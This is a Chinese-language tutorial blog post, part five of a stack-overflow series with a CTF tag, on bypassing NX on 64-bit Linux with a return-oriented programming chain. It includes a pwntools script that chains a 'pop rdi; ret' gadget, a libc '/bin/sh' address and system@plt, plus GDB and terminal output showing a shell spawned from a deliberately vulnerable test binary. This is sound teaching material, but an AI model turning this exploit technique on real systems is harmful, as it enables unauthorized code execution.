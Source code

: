 ```yaml
---
id: 780
layout: post
title: '二进制安全之栈溢出（五）'
date: 2017-10-24 12:46:07
author: virusdefender
tags: 安全 CTF
---
```


NX 不可执行是一项重要的漏洞利用缓解措施，为了绕过 NX 我们需要利用已有的可执行区域的代码片段来辅助完整漏洞利用。

这次还是需要禁用 ASLR，编译参数为 `gcc -g -O0 -fno-stack-protector -o vuln main.c`

在 32 位系统中，函数调用参数都是通过栈来传递的，而在 64 位系统中，函数参数是优先使用寄存器来传递的，当参数少于 7 个时，参数从左到右放入寄存器 rdi, rsi, rdx, rcx, r8, r9，如果超过 7 个，剩下的参数还是使用栈来传递。

在 32 位系统中，因为栈是相对容易控制的，我们可以控制栈为函数参数的形式，然后覆盖返回地址为已有的函数地址，比如 libc 中的 system 函数，这样就可以实现任意命令执行了。但是在 64 位系统中，控制了栈是没有用的，必须要控制寄存器才可以，除非是函数不需要参数。所以我们需要找到一些已有的指令片段，比如 `pop rdi`，会把栈中的参数转移到寄存器中，这样逐步的控制所需的所有寄存器，我们称这种指令片段为 gadget。

## 需要什么

以执行 `system("/bin/sh")` 为例

 - `system` 函数的地址，因为禁用了 ASLR，这个地址可以放心的硬编码。
 - 要执行的函数参数，这里是 `/bin/sh`，需要在内存中放置或者找到一个已有的。
 - 一个可以把 `/bin/sh` 放入 rdi 寄存器的 gadget。

## `system("/bin/sh")`

`system` 函数的地址可以简单获得

```
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0x400550 <system@plt>
```

而寻找 `/bin/sh` 可以使用 `find` 命令

```
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0x7ffff7b99d17 --> 0x68732f6e69622f ('/bin/sh')
```

发现 libc 中有一个，而 `student` 内存我们可以控制，也可以自己放置一个，这次先使用 libc 中的。

## gadget 的选择

我们需要一个能把 `0x7ffff7b99d17` 放入寄存器的 gadget

[ROPgadget](https://github.com/JonathanSalwan/ROPgadget) 是一个寻找 gadget 的工具，安装后可以使用下面的命令来寻找 

可以看到结果是 

```
➜  new ROPgadget --binary vuln | grep rdi
0x0000000000400803 : pop rdi ; ret
```

发现结果非常理想， `pop rdi; ret;` 可以复制参数到寄存器，其次是 `ret` 可以让程序再回到我们控制的地址上继续后续的执行。

## shellcode

仿照之前的写法，我们很简单就可以写出 shellcode

```python
from pwn import *
shellcode = "1925\n"
shellcode += "A" * (0x7fffffffe348 - 0x7fffffffe2f0)
# pop rdi; ret
shellcode += p64(0x0000000000400803)
# /bin/sh
shellcode += p64(0x7ffff7b99d17)
# system
shellcode += p64(0x400550)

print shellcode
```

## 分析

这个栈布局已经是很清楚了

```
0016| 0x7fffffffe2f0 ('A' <repeats 88 times>, "\003\b@")
0024| 0x7fffffffe2f8 ('A' <repeats 80 times>, "\003\b@")
0032| 0x7fffffffe300 ('A' <repeats 72 times>, "\003\b@")
0040| 0x7fffffffe308 ('A' <repeats 64 times>, "\003\b@")
0048| 0x7fffffffe310 ('A' <repeats 56 times>, "\003\b@")
0056| 0x7fffffffe318 ('A' <repeats 48 times>, "\003\b@")
0064| 0x7fffffffe320 ('A' <repeats 40 times>, "\003\b@")
0072| 0x7fffffffe328 ('A' <repeats 32 times>, "\003\b@")
0080| 0x7fffffffe330 ('A' <repeats 24 times>, "\003\b@")
0088| 0x7fffffffe338 ('A' <repeats 16 times>, "\003\b@")
0096| 0x7fffffffe340 ("AAAAAAAA\003\b@")
0104| 0x7fffffffe348 --> 0x400803 (<__libc_csu_init+99>:	pop    rdi)
0112| 0x7fffffffe350 --> 0x7ffff7b99d17 --> 0x68732f6e69622f ('/bin/sh')
0120| 0x7fffffffe358 --> 0x400550 (<system@plt>:	jmp    QWORD PTR [rip+0x200aca]        # 0x601020)
```

在 GDB 中运行，可以看到 `/bin/dash` 被执行，其实 `/bin/sh` 就仅仅是它的一个符号链接。

```
gdb-peda$ r < in.txt
Starting program: /home/virusdefender/Desktop/pwn/new/vuln < in.txt
0x7fffffffe2f0What's Your Birth?
What's Your Name?
You Are Born In 1094795585
You Are Naive.
You Speed One Second Here.
[New process 4824]
process 4824 is executing new program: /bin/dash
[New process 4825]
process 4825 is executing new program: /bin/dash
[Inferior 3 (process 4825) exited normally]
Warning: not running or target is remote
```

会发现两个 `/bin/dash` 的原因是 `system` 函数的原理是 `/bin/sh -c $cmd`，所以会先启动一个 `/bin/sh`，然后 `execve` 想运行的命令，这里还是 `/bin/sh`。

因为禁用 ASLR 的原因，libc 的加载地址不变，这个 shellcode 也是可以直接运行的

```
➜  new (cat in.txt; cat) |./vuln
0x7fffffffe360What's Your Birth?
What's Your Name?
You Are Born In 1094795585
You Are Naive.
You Speed One Second Here.
id
uid=1000(virusdefender) gid=1000(virusdefender) groups=1000(virusdefender),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

当然这个 gadget 也不唯一，比如 `python Ropper.py --file /lib/x86_64-linux-gnu/libc.so.6 --search "pop|call"` 得到的 `0x00000000001073d9: pop rax; pop rdi; call rax;` 也非常好用。


## 参考

 - [https://blog.techorganic.com/2015/04/21/64-bit-linux-stack-smashing-tutorial-part-2/](https://blog.techorganic.com/2015/04/21/64-bit-linux-stack-smashing-tutorial-part-2/)
 - [https://zhuanlan.zhihu.com/p/23537552](https://zhuanlan.zhihu.com/p/23537552)

